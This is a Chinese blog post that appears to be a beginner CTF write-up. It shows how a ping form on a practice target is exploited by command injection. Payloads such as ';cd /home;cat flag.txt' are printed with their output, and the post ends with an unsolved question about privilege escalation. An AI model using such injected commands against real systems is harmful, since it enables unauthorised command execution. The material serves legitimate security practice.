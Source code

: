 ```yaml
---
layout: post
title: Web新手题-command_execution
excerpt: "攻防世界新手Web题目-command_execution"
date:   2020-10-10 13:49:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 题目描述“小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。”

2. 输入了几次网址，发现是把post过去的参数*xxxx*拼接成*ping -c 3 xxxx*

3. 通过Chrome扩展Wappalyzer了解到目标为Ubuntu系统

4. 输入*;ls -l*

   ```shell
   ping -c 3 ;ls -l
   total 4
   -rw-rw-r-- 1 root root 925 Sep 27  2018 index.php
   ```

5. 尝试查看php源码，输入*;cat index.php*，并没有返回结果

6. 尝试前往上级目录，输入*;cd ..;ls -l*，成功执行

   ```shell
   ping -c 3 ;cd ..;ls -l
   total 4
   drwxr-xr-x 1 root root 4096 Nov 16  2018 html
   ```

7. 尝试访问几个目录后，在*/home*目录下，找到flag.txt

8. 输入*;cd /home;cat flag.txt*，发现flag：cyberpeace{64275b52a825406ccabfb4eda7bc63da}

   ```shell
   ping -c 3 ;cd /home;cat flag.txt
   cyberpeace{64275b52a825406ccabfb4eda7bc63da}
   ```

9. 提交答案，正确

## 独立思考

### 1. 遇到这种情况，如何提权？

Web服务的执行权限为：

```shell
ping -c 3 ;whoami
www-data
```

**未解决**

## 产生过的疑问

1. 遇到这种情况，如何提权？

